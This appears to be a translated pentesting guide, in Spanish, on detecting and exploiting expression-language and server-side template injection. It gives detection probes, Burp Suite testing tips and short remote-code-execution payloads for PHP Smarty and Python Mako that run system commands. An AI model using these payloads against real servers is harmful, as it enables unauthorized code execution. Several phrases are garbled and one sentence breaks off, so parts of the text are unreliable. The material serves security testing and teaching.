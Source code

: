 La mejor expresión para inyectar:

```
${5*11111}
# in this case, you would look For the value '55555' in the response of your request
```

> Se requiere una confirmación adicional para asegurarse de que el código se ejecuta en el lado del servidor y tiene acceso a datos confidenciales

Con Burp Suite PRO, debería obtener una extensión llamada **J2EE Scan** que agrega automáticamente pruebas para la inyección de lenguaje de expresión

Otra idea podría ser usar **Burp Intruder** para probar varias cargas útiles de ese tipo, ya que es probable que mientras,

Por ejemplo:

```
#{5*11111} # will work
%{5*11111} # may not
```

Puede usar el siguiente diagrama para ayudar a generar perfiles de este tipo de vuln, ya sea una plantilla o una inyección de lenguaje de expresión

![[Pasted image 20240311155620.png]]
#### Para identificar mejor la tecnología <a href="#to-better-identify-the-technology" id="to-better-identify-the-technology"></a>

El primer paso después de observar anomalías relacionadas con los cálculos o el manejo inusual de expresiones entre llaves debe ser tratar de identificar la tecnología subyacente

* Observe cuál es la tecnología genérica de la aplicación. Si es Java (u ver que se usa .jsp extensiones), entonces puede sospechar que es un lenguaje de expresión / OGNL
* Utilice el diagrama anterior, ya que contiene el comportamiento popular de los motores de plantillas al manejar expresiones
* Intente inyectar llaves sin cerrar (tenga cuidado, ya que existe la posibilidad de que deshabilite permanentemente la página web atacada); Esto podría provocar un error detallado al revelar la tecnología subyacente
* Observe otros errores detallados para los nombres de tecnología

#### Explotación de la inyección de plantillas <a href="#exploiting-template-injection" id="exploiting-template-injection"></a>

PHP Smarty:

```
# The RCE payload can be as simple as the one-liner:
{php}echo 'id';{/php}
```

Pitón Mako:

```
<%
  import os
  x=os.popen('id').read()
%>
${x}
```
